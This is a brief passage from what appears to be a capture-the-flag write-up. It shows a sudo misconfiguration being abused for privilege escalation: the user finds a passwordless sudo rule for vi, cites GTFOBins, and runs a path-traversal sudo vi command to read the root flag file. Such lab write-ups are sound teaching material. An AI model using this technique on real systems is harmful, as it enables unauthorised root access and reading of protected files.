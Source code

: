 ![](./IMG/41.png)
- Check sudo permission 
```
sudo -l
```
- Current user can execute /usr/bin/vi in /var/html/www as root without password

- Research for privilege escalation from vi command from GTFObins 
![](./IMG/42.png)
- Using vi to read file which is root permission 
```
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```
![](./IMG/43.png)
- Get root flag 